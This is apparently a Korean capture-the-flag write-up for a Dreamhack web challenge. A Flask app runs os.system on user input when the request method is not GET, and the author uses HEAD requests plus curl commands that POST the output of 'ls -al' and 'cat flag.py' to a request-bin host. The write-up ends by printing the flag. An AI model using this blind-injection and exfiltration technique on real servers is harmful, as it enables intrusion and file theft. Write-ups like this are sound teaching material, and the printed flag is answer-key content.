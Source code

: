 문제는 **Read the flag file XD** 입니다.  
뭔가 flag 파일을 찾는 문제인 것 같습니다.  
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    cmd = request.args.get('cmd', '')
    if not cmd:
        return "?cmd=[cmd]"

    if request.method == 'GET':
        ''
    else:
        os.system(cmd)
    return cmd

app.run(host='0.0.0.0', port=8000)
```
코드를 보면 다음과 같은 기능을 합니다.  
1. cmd 를 url에서 입력받는다.
2. 만약, request method 가 **GET 이면, 아무것도 안함**
3. 그게 아니라 request method 가 **GET이 아니면, 입력받은 cmd 를 실행**한다.

<img src="1.jpg"> <img src="2.jpg">  
처음에 들어가면, cmd를 입력하라는 문구가 나옵니다.  
그리고 예시를 작성하면, 다음과 같이 적은 cmd가 나오는 것을 알 수 있습니다.  
<img src="3.jpg"> <img src="4.jpg">  
burp suite를 이용해 cmd에 ls를 적었을 때의 request message를 봤습니다.  
예시를 들어서, **GET 메소드로 request**를 한다면, 위의 이미지처럼 그냥 **아무것도 하지 않고 'ls' 가 나오는 것**을 알 수 있습니다.  
<img src="5.jpg"> <img src="6.jpg">  
그래서 GET 메소드 말고 다른 메소드인 **POST 를 통해 request** 를 했습니다.  
그런데 **POST 메소드는 지원하지 않는다**고 나왔습니다.  
<img src="7.jpg"> <img src="8.jpg">  
이럴 때 어떤 메소드를 사용할 수 있는지 알 수 있는 메소드가 있습니다.  
바로 **OPTION** 입니다.(https://gnaseel.tistory.com/24)  
그래서 위의 이미지처럼 OPTION 을 이용해서 request 를 했고, 이에 대한 response message로 **HEAD, OPTIONS, GET** 을 사용할 수 있다는 것을 알았습니다.  
<img src="9.jpg">  
이미지를 찍지 못했지만, 실제로 HEAD로 request 하면 POST 때처럼 오류가 발생하지 않고 그냥 정상적으로 작동합니다.  
그러나 저희가 실질적으로 사용할 수 있는 것은 **HEAD** 밖에 없습니다.  
HEAD는 GET과 동일하지만, **response에 Body가 없고** response Code와 Head만 응답받습니다.  
즉, 저희가 원하는 cmd의 결과를 받을 수 없다는 뜻입니다.  
여기서 어떻게 해야할 지 모르겠어서 찾아봤습니다.  
결론적으로 **새로운 서버를 열어서 그 서버로 적은 cmd를 요청**하면 된다는 것이었습니다.  
여기서 드림핵에서 제공해준 도구인 **https://tools.dreamhack.games/myrequest** 에서 **Request Bin** 를 사용할 수 있습니다.  
<img src="10.jpg">  
제가 문제를 풀었을 때 사용했던 사이트는 **https://chsfqtv.request.dreamhack.games** 입니다.  

여기까지 하면 cmd 결과를 받을 서버까지 만든 상태입니다.  
그렇다면 cmd 결과를 서버로 전송하는 명령어는 무엇일까요?  
이것도 검색결과 **curl** 라는 명령어입니다.(https://inpa.tistory.com/entry/LINUX-%F0%9F%93%9A-CURL-%EB%AA%85%EB%A0%B9%EC%96%B4-%EC%82%AC%EC%9A%A9%EB%B2%95-%EB%8B%A4%EC%96%91%ED%95%9C-%EC%98%88%EC%A0%9C%EB%A1%9C-%EC%A0%95%EB%A6%AC)  
<img src="11.jpg">  
즉, cmd에 **curl -X POST -d "$(ls -al)" https://chsfqtv.request.dreamhack.games** 같이 명령어를 적습니다.  
**https://chsfqtv.request.dreamhack.games 에 POST 방식으로 문제 사이트에서 ls -al 를 실행한 결과를** 전송하는 명령어입니다.  
위의 이미지는 인코딩해서 약간 다르게 나왔습니다.  
<img src="12.jpg">  
**ls -al** 를 했을 때 **flag.py** 가 있는 것을 확인했습니다.  
<img src="13.jpg">  
이전처럼 **curl -X POST -d "$(cat flag.py)" https://chsfqtv.request.dreamhack.games** 이렇게 cmd에 값을 넣는데,  ls -al 을 **cat flag.py** 를 통해 flag를 출력합니다.  
<img src="14.jpg">  
따라서 정답은 **DH{4c9905b5abb9c3e10af4ab7e1645c23}** 입니다.  


